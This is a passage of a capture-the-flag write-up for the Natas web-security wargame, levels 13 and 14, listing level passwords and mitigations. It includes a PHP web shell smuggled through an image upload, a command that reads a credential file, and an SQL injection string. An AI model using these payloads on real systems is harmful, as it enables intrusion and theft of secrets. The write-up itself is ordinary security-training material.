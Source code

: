 #### How could those sins be mitigated
Ensure server validation, in this case only images are to be expected.


---
### Natas 13

#### Credentials
natas13
lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

#### How you passed the challenge
get a small image and edit content to add:

<html>
<body>

<form method="POST">
    <input name="cmd" id="cmd">

<?php

echo passthru ($_REQUEST["cmd"])

?>
</body>

change file to .php, upload and run the following:

cat /etc/natas_webpass/natas14

#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
dont allow images to execute code

---
### Natas 14

#### Credentials
natas14
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

#### How you passed the challenge
adding the following SQL injection to the password field did the trick:
" or ""="

#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
ensure data sanitization prior SQL construct
